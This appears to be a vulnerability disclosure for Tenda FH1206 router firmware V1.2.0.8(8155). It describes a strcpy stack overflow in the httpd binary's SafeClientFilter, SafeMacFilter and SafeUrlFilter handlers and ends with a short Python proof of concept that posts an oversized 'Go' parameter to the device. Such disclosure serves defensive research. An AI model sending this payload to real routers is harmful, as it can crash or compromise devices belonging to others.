


## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow vulnerability exists in the `fromSafeClientFilter`，the `fromSafeMacFilter` and the `fromSafeUrlFilter`function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). The `fromSafeClientFilter`function, for example, gets the `Go` parameter from the user request, and copies it directly to the stack variable `v15` using `strcpy`, causing a stack overflow.



## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/SafeClientFilter"
# url = f"http://{IP}/goform/SafeUrlFilter"

data = {
    "menufacturer": "tenda",
    "Go": "a"*0x1000
}

ret = requests.post(url,data=data)
```


